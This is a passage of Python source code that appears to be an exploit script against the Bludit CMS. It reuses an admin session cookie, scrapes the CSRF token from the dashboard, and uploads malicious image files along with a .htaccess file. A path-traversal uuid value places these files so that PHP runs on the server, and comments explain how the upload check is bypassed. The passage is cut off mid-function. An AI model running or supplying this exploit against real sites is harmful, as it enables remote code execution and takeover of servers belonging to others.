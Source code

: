                "Referer": url + "/admin/",
               "Accept-Language":"es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding":"gzip, deflate",
               "Content-Type":"application/x-www-form-urlencoded"
    }
    cookies = {"BLUDIT-KEY":cookie}
    response = session.post(url + "/admin/",
                            data=data,
                            headers=headers,
                            cookies=cookies,
                            allow_redirects = False
               )

    print("cookie: " + cookie)
    return cookie

def get_csrf_token(url,cookie):
    """ Grab the CSRF token from an authed session """

    session = requests.Session()
    headers = {"Origin":url,
               "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
               "Upgrade-Insecure-Requests":"1",
               "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0",
               "Connection":"close",
               "Referer":url + "/admin/",
               "Accept-Language":"es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding":"gzip, deflate"}
    cookies = {"BLUDIT-KEY":cookie}
    response = session.get(url + "/admin/dashboard",
                           headers=headers,
                           cookies=cookies
               )
    csrf_token = response.text.split('var tokenCSRF = "')[1].split('"')[0]

    print("csrf_token: " + csrf_token)
    return csrf_token

def upload_evil_image(url, cookie, csrf_token, payload, override_uuid=False):
    """ Upload files required for to execute PHP from malicious image files. Payload and .htaccess """

    session = requests.Session()
    files= {"images[]": (payload,
                         open(payload, "rb"),
                         "multipart/form-data",
                         {"Content-Type": "image/png", "filename":payload}
                        )}
    if override_uuid:
        data = {"uuid": "../../tmp/temp",
                "tokenCSRF":csrf_token}
    else:
        # On the vuln app, this line occurs first:
        # Filesystem::mv($_FILES['images']['tmp_name'][$uuid], PATH_TMP.$filename);
        # Even though there is a file extension check, it won't really stop us
        # from uploading the .htaccess file.
        data = {"tokenCSRF":csrf_token}
    headers = {"Origin":url,
               "Accept":"*/*",